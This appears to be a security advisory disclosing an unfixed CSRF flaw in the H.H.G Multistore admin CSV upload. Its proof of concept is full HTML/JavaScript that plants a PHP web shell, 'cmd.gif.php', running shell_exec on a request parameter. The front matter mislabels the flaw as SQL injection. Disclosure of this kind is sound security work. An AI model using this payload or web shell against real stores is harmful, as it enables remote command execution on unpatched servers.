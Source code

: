 ```yaml
---

title: "H.H.G Multistore <= 5.1.0 - CSRF in CSV File Upload"
date: 2022-05-15
draft: false
authors: ["blocki"]
tags: ["advisory"]
description: "SQL-Injection H.H.G Multistore"
featuredImage: "/alert.jpg"
featuredImagePreview: "/alert_crop.png"
---
```

Security vulnerabilities were found in [H.H.G Multistore](https://www.hhg-multistore.com/) <= 5.1.0.

There is no patch available. This product seems to be end of life, last versions were published 4/5 years ago.
<!--more-->

**CVE-ID:** CVE-2022-XXXXX (pending)

**Affected Product:** H.H.G Multistore

**Affected Versions:** Community Edition <= 4.10.3; Enterprise Edition <= 5.1.0

**Vulnerability:** CSRF

**Vendor URL:** [https://www.hhg-multistore.com/](https://www.hhg-multistore.com/)

**Status:** Unfixed

**Severity:** High


## Timeline
- 2022-05-05: Discovery
- 2022-05-15: Date Published

## Description
The CSV File Upload method in the admin panel is vulnerable to a CSRF.
The CSV File Upload accepts PHP instead of CSV files only, which increases the risk of this CSRF.
A successful exploit will create a web shell in the the following web path `/store_files/1/import/cmd.gif.php`.


## Proof of Concept
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
	var target = "http://localhost";
        var xhr = new XMLHttpRequest();
        xhr.open("POST", target + "/admin\/index.php?module=csv_backend&action=upload", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/avif,image\/webp,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------347642001511243116663838125471");
        xhr.withCredentials = true;
        var body = "-----------------------------347642001511243116663838125471\r\n" + 
          "Content-Disposition: form-data; name=\"file_upload\"; filename=\"cmd.gif.php\"\r\n" + 
          "Content-Type: application/x-php\r\n" + 
          "\r\n" + 
          "GIF8;\n" + 
          "\n" + 
          "\x3c?php echo shell_exec($_REQUEST[\'blocki\']); ?\x3e\n" + 
          "\n" + 
          "\r\n" + 
          "-----------------------------347642001511243116663838125471--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
	<script>
		submitRequest();
	</script>
  </body>
</html>
```
